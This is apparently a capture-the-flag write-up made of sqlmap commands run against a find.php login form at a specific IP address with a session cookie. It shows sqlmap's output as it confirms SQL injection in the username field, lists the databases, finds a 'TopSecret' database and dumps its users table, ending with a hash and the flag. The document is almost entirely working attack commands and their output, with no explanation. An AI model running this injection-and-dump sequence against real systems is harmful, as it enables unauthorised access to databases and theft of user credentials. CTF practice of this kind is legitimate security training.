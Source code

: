 sqlmap -u 'http://162.243.171.85:80/find.php' --data='username=admin' --cookie='PHPSESSID=e6f1641f4aeb281f0cf7287dc4c9e6be6aee4c0901514340b51f76d406b5a7228adb4187843f80fc378434c575dd47794f4d25c7bca81659670d48533dde583f' -p "username"

Is vulnerable

sqlmap -u 'http://162.243.171.85:80/find.php' --data='username=admin' --cookie='PHPSESSID=e6f1641f4aeb281f0cf7287dc4c9e6be6aee4c0901514340b51f76d406b5a7228adb4187843f80fc378434c575dd47794f4d25c7bca81659670d48533dde583f' -p "username" --dbs

[12:19:17] [INFO] fetching database names
available databases [2]:
[*] information_schema
[*] TopSecret



sqlmap -u 'http://162.243.171.85:80/find.php' --data='username=admin' --cookie='PHPSESSID=e6f1641f4aeb281f0cf7287dc4c9e6be6aee4c0901514340b51f76d406b5a7228adb4187843f80fc378434c575dd47794f4d25c7bca81659670d48533dde583f' -p "username" -D TopSecret --table

[12:21:02] [INFO] fetching tables for database: 'TopSecret'
Database: TopSecret
[1 table]
+-------+
| users |
+-------+

sqlmap -u 'http://162.243.171.85:80/find.php' --data='username=admin' --cookie='PHPSESSID=e6f1641f4aeb281f0cf7287dc4c9e6be6aee4c0901514340b51f76d406b5a7228adb4187843f80fc378434c575dd47794f4d25c7bca81659670d48533dde583f' -p "username" -D TopSecret -T users --dump




3f44e5dedf6b06b5da8c6e5ec7c0f4304f334a2ff2b1da3654942bab969e89765dae32faeabefdc0cf15d506c5146d96289dfa9929af7f60d65055d978e406ec

RC3-SECRETSS-6277598130